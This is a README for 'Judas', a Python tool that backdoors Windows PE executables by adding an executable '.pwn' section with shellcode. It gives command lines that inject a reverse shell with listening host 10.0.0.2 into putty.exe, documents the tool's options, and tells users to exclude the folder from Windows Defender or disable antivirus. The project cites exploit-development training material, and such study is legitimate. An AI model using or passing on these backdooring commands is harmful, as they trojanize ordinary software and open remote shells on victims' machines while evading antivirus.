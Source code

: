 # Judas

## Setup

First ensure your box is completely up to date.
The instructions that follow assume you are using a Debian based Linux distribution.
The only system that is known not to work with this framework is macOS as for some reason it does not ship with memory map.

```bash
sudo apt update && sudo apt upgrade -y
```

After updating and upgrading the system install the dependencies needed by Judas.
I would recommend installing keystone by building the source. I had issues using Python's Pip.

```bash
pushd
NB_CPU="$(grep -c processor /proc/cpuinfo)"
sudo apt-get install python3-pip git cmake gcc g++ pkg-config libglib2.0-dev libssl-dev -y
cd /tmp
git clone https://github.com/keystone-engine/keystone.git
cd keystone
mkdir build
cd build
sed -i "s/make -j8/make -j${NB_CPU}/g" ../make-share.sh
../make-share.sh
sudo make install
sudo ldconfig
cd ../bindings/python
sudo make install3 
popd
```

```bash
pip3 install -r requirements.txt
```

## Execution

To run the tool we recommend running `backdoor.py` as it is treated as the driver for Judas.
Our tool utilizes Python's argparse module to help with command line arguments. 
In its current state it can take in a multitiude of different arguments.

## Example

To inject the message box shellcode into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t msg`

To inject the reverse shell shellcode with listening host of 10.0.0.2 and listening port of 80 into putty.exe run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -t rev -lH 10.0.0.2 -lP 80`

To run Judas on putty.exe in wizard mode run the following code:

`python3 ./src/backdoor ./assets/bin/putty.exe -w`

## Option Summary

### Path

The only required parameter is path which is expected to come immediately after the call to backdoor.
This is the path to the file that you wish to inject.

### Listening Port (-lP | --lport)

Port the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening port.

### Listening Host (-lH | --lhost)

Host's IP the shellscript will listen on, not applicable to all shell scripts.
For example the message box script does not take a listening host.

### Section Size (-sS | --section_size)

Size of the section being injected into the binary.
Defaults to 1024.

### Page Size (-pS | --page_size)

Size of the page being injected into the binary.
Defaults to 1024.

### Section Permissions (-sP | --section_permissions)

Permissions of the section being injected into the binary.
Defaults to 0xE0000000 (READ | EXECUTE).

### Section Name (-sN | --section_name)

Name of the section being injected into the binary.
Defaults to .pwn.

## Payload Type (-t | --type)

Type of the payload being injected.
Current options:
    msg : message box shell script
    rev : reverse shell script

## Wizard Mode (-w | --wizard)

Activates wizard which prompts users for inputs depending on type of payload chosen.

## Verbose Mode (-v | --verbose)

Activates verbose mode

## Windows

If running this script on Windows ensure you exclude this folder from Windows Defender scans.
If you do not Windows Defender will automatically delete the file produced by the script.
Go to `Windows Defender Security Center`, then `Virus & threat protection settings`, and at the bottom there is `Exclusions`.
Add a new folder and put in the path for this repo.
The same goes for when you exploit the Windows system.
In this projects current state it cannot bypass antivirus, so to see it actually work ensure AV is disabled or marked to exclude the directory Judas is executed from.

## Resources

* https://captmeelo.com/exploitdev/osceprep/2018/07/16/backdoor101-part1.html
* https://resources.infosecinstitute.com/back-dooring-pe-files-windows/
* https://r0ttenbeef.github.io/backdooring-pe-file/
* https://axcheron.github.io/code-injection-with-python/
* https://docs.microsoft.com/en-us/windows/win32/debug/pe-format?redirectedfrom=MSDN
* https://resources.infosecinstitute.com/2-malware-researchers-handbook-demystifying-pe-file/

## Dependencies

* Assembler
  * https://github.com/keystone-engine/keystone
* PE Parser
  * https://github.com/erocarrera/pefile
* Network Interface
  * https://github.com/al45tair/netifaces